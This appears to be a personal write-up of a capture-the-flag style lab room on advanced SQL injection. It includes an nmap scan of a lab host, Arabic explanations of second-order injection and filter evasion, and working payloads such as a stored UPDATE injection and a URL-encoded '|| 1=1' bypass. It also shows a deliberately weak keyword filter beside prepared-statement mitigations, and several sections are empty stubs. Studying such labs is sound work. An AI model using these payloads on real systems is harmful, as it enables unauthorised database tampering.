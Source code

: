 # Advanced SQL Injection

<details>
  <summary>Introduction</summary>

  > ﻿Throughout this room, you will gain a comprehensive understanding of the following key concepts:
- >> Second-order SQL injection 
- >> Filter evasion
- >> Out-of-band SQL Injection
- >> Automation techniques
- >> Mitigation measures

- > **``First``** scan
  >
  > ```
  > nmap -A -T4 -p 3306,3389,445,139,135 10.10.108.30
  > ```
  >

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 14:35 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 20.00% done; ETC: 14:36 (0:00:24 remaining)
Nmap scan report for 10.10.108.30
Host is up (0.11s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 10.3.23 or earlier (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-05-01T18:36:10+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SQLi
| Not valid before: 2025-04-30T18:34:14
|_Not valid after:  2025-10-30T18:34:14
| rdp-ntlm-info: 
|   Target_Name: SQLI
|   NetBIOS_Domain_Name: SQLI
|   NetBIOS_Computer_Name: SQLI
|   DNS_Domain_Name: SQLi
|   DNS_Computer_Name: SQLi
|   Product_Version: 10.0.17763
|_  System_Time: 2025-05-01T18:36:00+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 (96%), Microsoft Windows Server 2019 (96%), Microsoft Windows 10 (93%), Microsoft Windows 10 1709 - 21H2 (93%), Microsoft Windows 10 21H1 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows 10 1903 (92%), Windows Server 2019 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows Vista SP1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-01T18:36:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   140.13 ms 10.8.0.1
2   127.52 ms 10.10.108.30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds

```

- > mysql run on **``3306``**


</details>










--------------------------------------------------------------------------------------------------------------------------------------------------










<details>
  <summary>Recap</summary>

![image](https://github.com/user-attachments/assets/c6ced0d7-d8d3-4b5e-8aea-d80d42831e45)

  
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------

<details>
  <summary>Second-Order SQL Injection</summary>

<details>
  <summary>GPT--explain</summary>
  
# Second-Order SQL Injection

Second-Order SQL Injection (SQLi) هو نوع من أنواع هجمات SQL التي لا يتم تنفيذها في لحظة إدخال البيانات كما هو الحال مع SQLi التقليدي. بدلاً من ذلك، يتم إدخال كود خبيث يُخزن بشكل طبيعي في قاعدة البيانات، ثم يُنفذ لاحقًا عند استخدام هذه البيانات في استعلام SQL جديد بدون حماية كافية.

---

## 🧠 مثال توضيحي

### 💾 1. صفحة `add.php` (إدخال البيانات)

المهاجم يدخل البيانات التالية:

- `SSN`: `12345'; UPDATE books SET book_name = 'Hacked'; --`
- `book_name`: `Normal Book`
- `author`: `John Doe`

الكود يُخزن كما هو داخل قاعدة البيانات دون تنفيذ أي أوامر SQL، لأنه لا يُستخدم في استعلام أثناء الإدخال.

---

### 🔁 2. صفحة `update.php` (استخدام البيانات لاحقًا)

الكود التالي يستخدم البيانات المخزنة:

```php
$update_sql = "UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '$ssn'; INSERT INTO logs (page) VALUES ('update.php');";
```

إذا كانت قيمة `$ssn` هي القيمة التي أدخلها المهاجم سابقًا، فإن هذا الاستعلام يصبح استعلامًا مركبًا يؤدي إلى تنفيذ الكود الخبيث.

### 💣 النتيجة

- يتم تنفيذ الأمر الثاني داخل الاستعلام: `UPDATE books SET book_name = 'Hacked';`
- أسماء كل الكتب في الجدول قد تتغير إلى "Hacked".

---

## ⚠️ لماذا هذا النوع خطير؟

- يمر من عمليات الفلترة التقليدية مثل `real_escape_string()`.
- لا يسبب مشاكل ظاهرة وقت الإدخال، مما يجعله صعب الاكتشاف.
- يتم تنفيذه في وقت لاحق في مكان مختلف في الكود.

---

## 🔐 كيف نحمي التطبيق؟

### ✅ استخدام Prepared Statements (الاستعلامات المجهزة)

```php
$stmt = $conn->prepare("UPDATE books SET book_name = ?, author = ? WHERE ssn = ?");
$stmt->bind_param("sss", $book_name, $author, $ssn);
$stmt->execute();
```

### ✅ فلترة البيانات عند الإدخال **وعند الاستخدام**

- لا تكتفِ بالتحقق عند الإدخال فقط.
- تحقق من صحة وسلامة البيانات قبل استخدامها في أي استعلام.

### ❌ تجنب استخدام `multi_query()` إن أمكن

- لأنه يسمح بتنفيذ أكثر من أمر SQL في استعلام واحد، مما يسهل تنفيذ الأكواد الخبيثة.

---

## 📊 تسلسل الهجوم (وصف توضيحي)

```
[User Input] --> (add.php) --> [Stored in DB] --> (update.php uses it unsafely) --> [SQL Injection Triggered]
```

---

Second-Order SQLi مثال قوي على أن الأمان لا يجب أن يعتمد فقط على الإدخال النظيف، بل أيضًا على كيفية استخدام البيانات لاحقًا.


</details>


- > first we will add new book on this ``http://10.10.84.232/second/add.php`` like this:
  > 
  > ![image](https://github.com/user-attachments/assets/4088c1e0-64fc-4dca-b5cf-cddffd17176c)
  > 
  > we make book ``SSN`` content ``12345'; UPDATE books SET book_name = 'Hacked'; --``
  > 
  > it will not excuted now
  >
  > now we open **``http://10.10.84.232/second/update.php``** and update content of this book
  >
  > ![image](https://github.com/user-attachments/assets/b03e0b64-42f6-405d-812d-5fb3be5888cf)
  >
  > if we go back to ``add.php`` will found all books name became **``hacked``**
  >
  > ![image](https://github.com/user-attachments/assets/6594fef7-009d-4cee-a91f-b68c82ce188b)
  >
  > we can also drop tables or any other sql queryies 




</details>

--------------------------------------------------------------------------------------------------------------------------------------------------


<details>
  <summary>Filter Evasion Techniques</summary>

<details>
  <summary>GPT--explain</summary>

# SQL Injection: Bypassing Weak Filters

## 🎯 الفكرة الأساسية
بعض المطورين يحاولون منع هجمات SQL Injection عن طريق فلترة كلمات خطيرة مثل `OR`, `AND`, `UNION`, `SELECT` من مدخلات المستخدم. لكن هذه الطريقة غير كافية ويمكن تجاوزها باستخدام تقنيات ترميز مختلفة.

---

## 🧱 مثال على كود ضعيف للحماية:

```php
$special_chars = array("OR", "or", "AND", "and" , "UNION", "SELECT");
$book_name = str_replace($special_chars, '', $book_name);
```

الكود يقوم بإزالة الكلمات المحظورة من المدخلات. فإذا أدخل المستخدم:
```
admin' OR 1=1
```
فإنها تتحول إلى:
```
admin' 1=1
```
وبالتالي قد يفشل الهجوم. لكن... 👇

---

## 💥 كيف يتجاوز الهاكر الفلترة؟

### ✅ 1. URL Encoding (ترميز الروابط)

الهجوم:
```
admin' OR 1=1 --
```
يُكتب كالتالي:
```
admin%27%20OR%201%3D1%20--+
```
الفلتر لا يتعرف على `%27` كعلامة اقتباس `'`، لكنها تُفك عند التنفيذ.

---

### ✅ 2. استخدام `||` بدل `OR`

في MySQL:
```sql
1' || 1=1 --+
```
`||` تعمل كبديل لـ `OR`. الفلتر لا يراها خطيرة لكنها تؤدي نفس الغرض.

---

### ✅ 3. Hex Encoding (الترميز بالـ Hex)

كلمة `admin` يمكن كتابتها كالتالي:
```sql
0x61646d696e
```
إذا حاول الفلتر منع كلمة "admin"، هذا الترميز سيتجاوز الحظر.

---

### ✅ 4. Unicode Encoding (الترميز الموحد)

مثال:
```
\u0061\u0064\u006d\u0069\u006e  →  admin
```
بعض البيئات تقوم بتفسير الترميز وتحويله للنص الأصلي تلقائيًا.

---

## 👨‍💻 تطبيقات واقعية معرضة للخطر

- مواقع البحث في الكتب أو المنتجات.
- صفحات تسجيل الدخول واسترجاع كلمات المرور.
- أي نموذج إدخال يعتمد على كلمات يتم فلترتها سطحيًا.

---

## 🛡️ كيف تحمي تطبيقك كمطور؟

- ✅ **استخدم Prepared Statements (استعلامات مجهزة مسبقًا):**
  - تمنع تنفيذ الكود الخبيث مهما كانت طريقة ترميزه.

- ❌ **لا تعتمد على `str_replace` أو Regex فقط:**
  - الترميز قد يخدع هذه الطرق بسهولة.

- 🧠 **افهم أن الترميز لا يغير نية المدخلات:**
  - قاعدة البيانات ستفك الترميز وتنفذ الأوامر.

---

الحماية الحقيقية تأتي من تصميم استعلاماتك بشكل آمن، وليس من مجرد إزالة كلمات معينة من إدخال المستخدم.


  
</details>


- > firts open ``http://10.10.84.232/encoding/``
  >
  > try to use for exmaple ``' or 1=1; --`` this will appear
  >
  > ![image](https://github.com/user-attachments/assets/891418fc-62fd-415a-b15a-bdb20dc11faf)
  >
  > so now will go to burpsuit and send request to ``repeater``
  >
  > and select the input and do url encode to it by click ``ctrl`` **+** ``U``
  >
  > ![image](https://github.com/user-attachments/assets/181147f7-3764-438a-9c65-9fab015278a7)
  >
  > ```
  > http://10.10.84.232/encoding/search_books.php?book_name=intro+to+php%27+||+1%3d1+--+
  > ```




</details>

--------------------------------------------------------------------------------------------------------------------------------------------------


<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------



<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------



<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------




<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------




<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------





